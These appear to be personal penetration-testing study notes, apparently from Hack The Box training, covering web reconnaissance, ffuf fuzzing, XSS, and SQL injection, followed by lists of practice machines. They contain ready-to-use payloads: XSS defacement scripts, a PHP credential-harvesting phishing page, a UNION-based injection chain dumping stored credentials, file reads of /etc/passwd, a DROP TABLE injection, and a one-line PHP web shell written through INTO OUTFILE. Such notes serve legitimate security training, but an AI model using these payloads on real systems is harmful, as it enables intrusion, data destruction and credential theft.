


# Web Recon
## Whois
* Whois domain.com

## DNS

### Tools

- dig
	- dig domain.com
	- dig @1.1.1.1 domain.com - specifies a specific name server to query
	- dig domain.com ANY\
	- dig axfr domena.pl @dns-server
- dnslookup
- host
- dnsenum -> this one is good
- fierce
- dnsrecon


## Subdomains
### Purpose for looking subdomain:

- Development and Staging Environments
- Hidden Login Portals
- Legacy Applications
- Sensitive Information

```
In DNS subdomains are typically represented by A, which map the subdomain name to its corresponding IP address. Additionally, CNAME records might be used to create aliases for subdomains
 ```

### Active Subdomain Enumeration
#### * DNS Zone Transfer

#### * Brute-force
Process of brakes down into four steps:

Wordlist Selection: 
        General-Purpose
        Targeted
        Custom
Iteration and Querying
DNS Lookup: A DNS query is performed for each potential subdomain to check if it resolves to an IP address. This is typically done using the A or AAAA record type.
Filtering and Validation

* list: 
	* seclists/Discovery/DNS/subdomains-top1million-110000.txt
	* seclists/Discovery/DNS/subdomains-top1million-20000.txt 

#### * Dnsenum 
#### * Ffuf 
#### * Gobuster

### Passive Subdomain Enumeration
- crt.sh
- Certifiete transparency (CT)
- search engines (google)


## VirtualHosts
### Tools
* gobuster
	* gobuster vhost -u http://<target_IP_address> -w <wordlist_file> --append-domain
* ffuf
* Feroxbuster


## Fingerprinting
### Tools:
* Wappalyzer
* BuiltWith
* WhatWeb
* Nmap
* Netcraft
* wafw00f
* Nikto
* Nuklei


## Crawling
## Valuable Information
* Links
* Comments
* Metadata - Metadata refers to data about data
* Sensitive Filses - This includes backup files (e.g., .bak, .old), configuration files (e.g., web.config, settings.php), log files (e.g., error_log, access_log), and other files containing passwords, API keys, or other confidential information. 
* python
---
* robots.txt
* security.txt
* /.well-known/change-password
* openid-configuration
* assetlinks.json
* mta-sts.txt

## Popular Web Crawler
* Burp Suite
* ZAP
* Scrapy
* Apache Nutch
* ReconSpider


# FFUF
## Basic Fuzzing
-ic - get rid of copytright line
-fs - filter size

#### Directory Fuzzing:
- ffuf -w /list:FUZZ -u https://target.com/FUZZ

### Page fuzzing
* ffuf -w /opt/useful/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://SERVER_IP:PORT/blog/indexFUZZ
* ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php


### Recursive Fuzzing
- recursion
- recursion-depth
## Domain Fuzzing

### Subdomain
* ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.academy.htb/

### Vhost
* ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.academy.htb'

## GET Parameters
* ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key -fs xxx

## POST
Tip: In PHP, "POST" data "content-type" can only accept "application/x-www-form-urlencoded". So, we can set that in "ffuf" with "-H 'Content-Type: application/x-www-form-urlencoded'".

* ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx

* curl http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=key' -H 'Content-Type: application/x-www-form-urlencoded'


## Value Fuzzing:
### Generate list
* for i in $(seq 1 1000); do echo $i >> ids.txt; done
### Value Fuzzing
* ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx

# Javascript Deobfuscation
* look for ```*.js```

### Deobfuscation tools
* https://jsconsole.com/
* https://javascript-minifier.com/
* http://beautifytools.com/javascript-obfuscator.php

### Advanced Deobfuscation
#### Tools
* https://matthewfl.com/unPacker.html
* https://obfuscator.io/

Tip: Ensure you do not leave any empty lines before the script, as it may affect the deobfuscation process and give inaccurate results.
Tip: We add the "-s" flag to reduce cluttering the response with unnecessary data

```
function generateSerial() {
  ...SNIP...
  var xhr = new XMLHttpRequest;
  var url = "/serial.php";
  xhr.open("POST", url, true);
  xhr.send(null);
};
```
### Summary

* First, we uncovered the HTML source code of the webpage and located the JavaScript code.
* Then, we learned about various ways to obfuscate JavaScript code.
* After that, we learned how to beautify and deobfuscate minified and obfuscated JavaScript code.
* Next, we went through the deobfuscated code and analyzed its main function
* We then learned about HTTP requests and were able to replicate the main function of the obfuscated JavaScript code.
* Finally, we learned about various methods to encode and decode strings.

### To try:
Machines
* Hackback I

Challenges
* Query M
* Canvas E
* Hypercraft M
* Fake News E

Fortresses
* Jet
* AWS

# XSS

## Stored XSS

```
Tip: Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of window.origin in the alert box, instead of a static value like 1. In this case, the alert box would reveal the URL it is being executed on, and will confirm which form is the vulnerable one, in case an IFrame was being used.
```

* <script>alert()</script>
* <script>print()</script>

## Reflected XSS

* check, if address contain some value from the user

## DOM XSS

### Source & Sink
```
Sink is the function that writes the user input to a DOM Object. 
```
* document.write()
* DOM.innerHTML
* DOM.outerHTML

```
jQuery sink's
```

* add()
* after()
* append()

Example:
```
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```

### DOM ATTACKS
```

```

## XSS Discovery

### Automated Discovery

```
Scanners usually do two types of scanning: A Passive Scan, which reviews client-side code for potential DOM-based vulnerabilities, and an Active Scan, which sends various types of payloads to attempt to trigger an XSS through payload injection in the page source.
```
#### Tools:
* XSS Strike
```
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```
* Brute XSS
* XSSer


### Manual Discovery
* Payloads:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

https://github.com/payloadbox/xss-payload-list

```
Note: XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).
```
```
Better way to look for XSS is write a python script, compare to manually test
<PLACE FOR SCRIPT>

```

* Code Review


## Defacing
Changing its look for anyone who visits the website

### Defacement Elements

* Background Color document.body.style.background
```
<script>document.body.style.background = "#141d2b"</script>

Tip: Here we set the background color to the default Hack The Box background color. We can use any other hex value, or can use a named color like = "black".
```

* Background document.body.background
```
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```
* Page Title document.title
```
<script>document.title = 'HackTheBox Academy'</script>
```
* Page Text DOM.innerHTML
```
document.getElementById("todo").innerHTML = "New Text"
$("#todo").html('New Text');
document.getElementsByTagName('body')[0].innerHTML = "New Text"

Tip: It would be wise to try running our HTML code locally to see how it looks and to ensure that it runs as expected, before we commit to it in our final payload.
```
```
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
</ul><ul><script>document.title = 'HackTheBox Academy'</script>
</ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>

```

#### Credential Stealing

```
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```

# SQL INJECTION
---------------

```
'%1'; DROP TABLE users;'
select * from logins where username like '%1'; DROP TABLE users;'
```
Notice how we added a single quote (') after "1", in order to escape the bounds of the user-input in ('%$searchInput').
Note: We added another SQL query after a semi-colon (;). Though this is actually not possible with MySQL, it is possible with MSSQL and PostgreSQL. 

### SQLInjection Type
---------------------

#### In-band SQLi (output visible directly in the app)
* Union-based: uses UNION SELECT; attacker must know the number and position of columns to inject output into a visible one.
* Error-based: intentionally triggers SQL errors to extract data from error messages.

#### Blind SQLi (no direct output – inference via logic)
* Boolean-based: uses conditions like IF TRUE THEN show normal page; detects changes in response.
* Time-based: uses conditions like IF TRUE THEN SLEEP(5); detects delays in server response.

#### Out-of-band SQLi (no response → data exfiltrated via external channel)
* Sends data through DNS or HTTP to an attacker-controlled server.


## SQLi Discovery
We will try to add one of the below payloads after our username and see if it causes any errors or changes how the page behaves:

|Payload |   URL Encoded|
|--------|--------------|
|' |   %27|
|" |   %22|
|# |   %23|
|; |   %3B|
|) |   %29|

Note
```
Sometimes, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.
```
Note
```
The payload we used above is one of many auth bypass payloads we can use to subvert the authentication logic. You can find a comprehensive list of SQLi auth bypass payloads in PayloadAllTheThings, each of which works on a certain type of SQL queries.
```

## Using Comments

Note
```
In SQL, using two dashes only is not enough to start a comment. So, there has to be an empty space after them, so the comment starts with (-- ), with a space at the end. This is sometimes URL encoded as (--+), as spaces in URLs are encoded as (+). To make it clear, we will add another (-) at the end (-- -), to show the use of a space character.
The # symbol can be used as well.
```

|Symbol|
|--  |
|--+ |
|#   |
|/**/|

Tip
```
if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.
```
### Auth Bypass with comments
```
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```
The username is now admin, and the remainder of the query is now ignored as a comment

```
SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';
SELECT * FROM logins WHERE (username='admin') or 1=1-- ' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';
```


## Union Clause

The Union clause is used to combine results from multiple SELECT statements. This means that through a UNION injection, we will be able to SELECT and dump data from all across the DBMS, from multiple tables and databases. 

Note
```
The data types of the selected columns on all positions should be the same.
A UNION statement can only operate on SELECT statements with an equal number of columns
```

Tip
```
For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.
```
```
SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '
```

## UNION INJECTION

* Using by ORDER BY
* Using by UNION

### ORDER BY
* ' order by 1-- - -> changing 1 to x and look for error

Reminder
```
We are adding an extra dash (-) at the end, to show you that there is a space after (--).
```

### UNION
* sth' UNION select 1,2,3,4-- - 

### Location of Injection
We cannot place our injection at the beginning, or its output will not be printed.
We can use @@version
```
cn' UNION select 1,@@version,3,4-- -
```

# Database Enumeration

How to recognize MySQL

| Payload 	  |	When to Use 			| Expected Output 					|Wrong Output |
|-----------	  |------------------------		|-------------------					|-------------|
|SELECT @@version |	When we have full query output 	| MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1' 	| In MSSQL it returns MSSQL version. Error
|SELECT POW(1,1)  |	When we only have numeric output| 	1 						| Error with other DBMS
|SELECT SLEEP(5)  |	Blind/No Output 		|Delays page response for 5 seconds and returns 0. 	| Will not delay response with other DBMS


## INFORMATION_SCHEMA Database

We need

* List of databases
* List of tables within each database
* List of columns within each table

Information_schema contains metada about DBMS

So, to reference a table present in another DB, we can use the dot ‘.’ operator

```
SELECT * FROM my_database.users;
```

## SCHEMATA
The table SCHEMATA in the INFORMATION_SCHEMA database contains information about all databases on the server. It is used to obtain database names so we can then query them. The SCHEMA_NAME column contains all the database names currently present.
```
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
cn' UNION select 1,database(),2,3-- -
```

## TABLES
https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html

To get tables from information_schema
```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
```
Note how we replaced the numbers '2' and '3' with 'TABLE_NAME' and 'TABLE_SCHEMA', to get the output of both columns in the same query.

Add a (where table_schema='dev') condition to only return tables from the 'dev' database, otherwise we would get all tables in all databases, which can be many.
```

## COLUMN
https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html

The COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used to achieve this.

```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

## Data
```
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```
Remember
```
Don't forget to use the dot operator to refer to the 'credentials' in the 'dev' database, as we are running in the 'ilfreight' database, as previously discussed.
```


Ex:
```
as'
as' order by 4-- 
as' union select 'a', 'b', 'c', 'd'-- 
as' union select 'a', @@version, 'c', 'd'-- 
as' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
as' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- 
as' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
as' UNION select 1,username,password,4 from dev.credentials-- 
```




# Reading Files

In MySQL, the DB user must have the FILE privilege to load a file's content into a table and then dump data from that table and read files.

## DB User

Which user we are
* SELECT USER()
* SELECT CURRENT_USER()
* SELECT user from mysql.user

so in example from previous union:
* as' UNION SELECT 1, user(), 3, 4-- 

or 

* as' UNION SELECT 1, user, 3, 4 from mysql.user-- -

## User Privileges

* SELECT super_priv FROM mysql.USER
* as' UNION SELECT 1, super_priv, 3,4 from mysql.USER-- 
if we have more users
* as' UNION SELECT 1, super_priv, 3,4 from mysql.USER where user="xyz"-- 

Query return Y if TRUE

#### Dump other privileges directly from schema
```
as' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 

or

as' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- 
```
We see that the FILE privilege is listed

## LOAD_FILE
If we have privileges for read file we can use:

```
SELECT LOAD_FILE('/etc/passwd');

or in union based

as' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
Note
```
We will only be able to read the file if the OS user running MySQL has enough privileges to read it.
```

## Another Example

We know that the current page is search.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/search.php.

```
as' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- 
```


# Writing Files
## Write File Privileges
To write files user need:


* User with FILE privilege enabled
* MySQL global secure_file_priv variable not enabled
* Write access to the location we want to write to on the back-end server

Check if the MySQL database has that privilege. This can be done by checking the secure_file_priv global variable

## secure_file_priv
https://mariadb.com/kb/en/server-system-variables/#secure_file_priv

Find out the value of secure_file_priv. 
Within MySQL, we can use the following query to obtain the value of this variable:
```
SHOW VARIABLES LIKE 'secure_file_priv';
```
https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html

```
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

or 

as' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```

Empty result of secure_file_priv value, meaning that we can read/write files to any location.

## SELECT INTO OUTFILE
We can use it for export data to files which we can read

```
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

cat /tmp/credentials

It is also possible to directly SELECT strings into files

```
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

Tip 
```
Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.
```

## Writing Files through SQL Injection
```
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

```
as' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- 
```


## Writing a Web Shell
```
as' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
http://94.237.58.4:43948/shell.php?0=id
```

# Mitigating SQL Injection

* Input Sanitization
* Input Validation
* User Privileges
* Web Application Firewall
* Parameterized Queries


# Machines
* Sneaky M
* Holiday H
* Europa M
* Charon H
* Enterprise M
* Nightmare I
* Falafel H
* Rabbit I
* Fighter I
* SecNotes M
* Oz H
* Giddy M
* RedCross M
* Help E
* FluJab H
* Unattended M
* Writeup E
* Jarvis M
* Scavenger H
* Zetta H
* Bankrobber I
* AI M
* Control H
* Fatty I
* Multimaster I
* Magic M
* Cache M
* Intense H
* Unbalanced H
* Breadcrumbs H
* Proper H
* CrossFitTwo I
* Toolbox E
* Monitors H
* Spider H
* Writer M
* EarlyAccess H
* Validation E
* Overflow H
* Union M
* Pandora E
* GoodGames E
* Seventeen H
* StreamIO M
* Trick E
* Faculty M
* Shoppy E
* Download H
* Health M
* Intentions H
* MetaTwo E
* PC E
* Phoenix H
* Shared M
* Soccer E
* Socket M
* Vessel H
* Devzat M
* SwagShop E
* Clicker M
* Altered H
* PikaTwoo I
* Bookworm I
* Monitored M
* Usage E
* Freelancer H
* Blazorized H
* Resource H
* Lantern H
* MonitorsThree M
* Yummy H
 
# Fortresses
* Jet
* Context
* AWS

# Prolabs
* RastaLabs I
* Offshore I
* Dante I
* APTLabs A
* Alchemy I
